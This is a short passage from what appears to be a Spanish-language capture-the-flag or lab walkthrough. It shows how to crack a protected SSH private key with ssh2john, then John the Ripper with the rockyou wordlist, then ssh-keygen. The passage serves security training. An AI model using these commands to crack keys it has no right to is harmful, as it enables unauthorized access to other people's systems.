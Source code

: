 <figure>
<img src="./attachments/fig52.png" alt="ssh-keygen -yf">
</figure>

### Explotación mediante fuerza bruta sobre llave SSH

Podríamos intentar aplicar fuerza bruta, pero para ello debemos pasarlo al formato correcto para que el comando john y el diccionario elegido puedan usar esta llave privada. Para ello ejecutamos ssh2john:

```sh
ssh2john id_rsa > hash_id_rsa
```

Luego para aplicar fuerza bruta usamos el comando

```
john –wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
```
<figure>
<img src="./attachments/fig53.png" alt="passwd">
</figure>

Como ya tenemos la clave de ssh, probamos leer la misma usando el comando: 
```
ssh-keygen -yf id_rsa
```

<figure>
<img src="./attachments/fig54.png" alt="hash">
</figure>
